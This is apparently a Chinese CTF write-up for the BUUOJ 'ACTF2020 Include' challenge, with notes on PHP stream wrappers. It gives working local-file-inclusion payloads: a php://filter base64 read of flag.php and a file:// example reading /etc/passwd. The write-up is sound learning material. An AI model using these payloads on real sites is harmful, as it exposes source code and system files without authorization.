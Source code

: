 [[ACTF2020 新生赛]Include1](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Include)

### 解题

查看源代码

![[屏幕截图 2022-07-29 082831.png]]

PHP伪协议

构造playload:

>/?file=php://filter/read=convert.base64-encode/resource=flag.php

Base64 解码

![[屏幕截图 2022-07-29 084455.png]]

### 备注
*PHP伪协议*

[参考目录](https://blog.csdn.net/cosmoslin/article/details/120695429)
[参考目录](https://www.php.cn/php-weizijiaocheng-481803.html)

#### file://

作用:

>用于访问文件（绝对路径、相对路径、网络路径）

实例:

>http://www.xx.com?file=file:///etc/passswd

#### php://

作用:

>用于访问输入输出流

##### php://filter

作用:

>读取源代码并进行base64编码输出

实例:

>http://xxx.x.x.x/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）

参数:

>resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
>read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
>write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
>
><；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
